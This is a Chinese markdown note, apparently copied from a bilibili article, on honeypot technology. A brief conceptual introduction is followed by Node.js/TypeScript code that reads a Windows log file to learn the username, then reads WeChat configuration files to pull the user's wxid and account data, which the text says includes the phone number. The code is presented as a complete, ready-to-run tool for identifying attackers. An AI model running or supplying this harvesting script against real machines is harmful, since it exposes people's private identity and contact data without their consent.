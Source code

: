 ```yaml
---
date: 2023-05-08 09:06
updated: 2023-05-08 09:06
---
```

# 蜜罐技术

首先，我们先讲一下蜜罐的概念，你可以简单理解较为蜜罐就是一个陷阱，故意暴露一些我们人为设计好的漏洞，让攻击者自投罗网。



## 一、蜜罐介绍
蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。

蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于JSONP等方式来获取攻击者的画像。

但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。

## 二、蜜罐技术获取手机号、微信号、地址

1.读取 PFRO日志文件（这个文件是存放ISA监控日志的信息）

![](./images/image-2023-01-25_22-33-46-528-04-蜜罐技术.png)


通过这个文件可以读取系统的用户名 


Nodejs 代码

```js
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

})
```
2.通过用户名读取wxid

```ts
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
```
3.最后通过微信ID 读取你的微信信息（手机号，微信号，等）

## 完整代码

```js
import fs from 'fs';
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
//读取信息
const getData = <T>(path: T, wxId: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
    return data

}
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

}) 作者：小满zs https://www.bilibili.com/read/cv16944860?spm_id_from=333.999.0.0 出处：bilibili
```